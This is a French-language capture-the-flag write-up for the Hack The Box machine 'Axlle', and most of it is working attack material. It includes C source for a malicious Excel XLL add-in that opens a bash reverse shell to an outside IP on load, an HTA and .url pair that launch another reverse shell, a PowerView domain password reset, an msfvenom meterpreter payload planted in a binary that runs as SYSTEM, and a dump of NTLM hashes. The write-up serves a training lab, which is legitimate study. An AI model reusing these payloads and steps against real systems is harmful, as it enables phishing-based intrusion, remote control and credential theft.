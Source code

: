 # htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`

![nmap](./images/nmap.png)

De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80

![nmap](./images/dirsearch.png)

Port 445

![nmap](./images/smb.png)

L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt`
![nmap](./images/25.png)

La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

```c
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

Utilisez gcc pour compiler des fichiers C en fichiers xll

`x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32`

Envoyez le fichier xll au compte administrateur et attendez l'exécution

`swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll`

![nmap](./images/nc.png)

L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.

`cd "C:\Program Files (x86)\hmailserver\"`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *

![nmap](./images/file.png)

### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

```java
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

```

![nmap](./images/9200.png)

Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse

![nmap](./images/blood.png)

### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword
`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.

![nmap](./images/modification.png)

### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le

![nmap](./images/rewrite.jpg)

Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.

`icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"`

![nmap](./images/icacls.jpg)

On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe`

![nmap](./images/shell.jpg)

Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

```hash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::
```
